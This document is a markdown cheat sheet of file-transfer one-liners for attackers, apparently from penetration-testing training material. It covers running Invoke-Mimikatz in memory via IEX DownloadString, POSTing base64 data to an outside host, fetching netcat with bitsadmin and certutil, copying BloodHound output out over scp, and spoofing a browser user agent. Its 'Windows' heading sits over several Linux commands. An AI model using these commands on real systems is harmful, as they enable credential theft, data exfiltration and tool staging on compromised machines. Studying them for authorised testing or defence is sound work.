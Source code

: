
# Windows

|**Command**|**Description**|
|---|---|
|`Invoke-WebRequest https://<snip>/PowerView.ps1 -OutFile PowerView.ps1`|Download a file with PowerShell|
|`IEX (New-Object Net.WebClient).DownloadString('https://<snip>/Invoke-Mimikatz.ps1')`|Execute a file in memory using PowerShell|
|`Invoke-WebRequest -Uri http://10.10.10.32:443 -Method POST -Body $b64`|Upload a file with PowerShell|
|`bitsadmin /transfer n http://10.10.10.32/nc.exe C:\Temp\nc.exe`|Download a file using Bitsadmin|
|`certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe`|Download a file using Certutil|
|`wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh`|Download a file using Wget|
|`curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`|Download a file using cURL|
|`php -r '$file = file_get_contents("https://<snip>/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`|Download a file using PHP|
|`scp C:\Temp\bloodhound.zip user@10.10.10.150:/tmp/bloodhound.zip`|Upload a file using SCP|
|`scp user@target:/tmp/mimikatz.exe C:\Temp\mimikatz.exe`|Download a file using SCP|
|`Invoke-WebRequest http://nc.exe -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome -OutFile "nc.exe"`|Invoke-WebRequest using a Chrome User Agent|